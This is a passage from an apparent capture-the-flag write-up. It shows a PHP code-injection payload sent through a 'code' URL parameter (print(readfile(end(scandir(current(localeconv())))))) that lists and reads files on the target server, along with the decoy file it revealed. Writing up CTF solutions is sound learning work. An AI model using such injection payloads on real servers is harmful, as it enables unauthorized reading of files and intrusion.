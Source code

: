 With scandir\(\), i can print all file in current directory

![](.gitbook/assets/image%20%2887%29.png)

Checking content file well\_play\_but\_flag\_not\_here.php

```text
#view-source:http://45.76.181.81/?code=print(readfile(end(scandir(current(localeconv())))));
<?php 

$fl0wer="Flag not here! go to directory's parent directory";

?>
```

Checking parent folder ".." :

![](.gitbook/assets/image%20%28153%29.png)
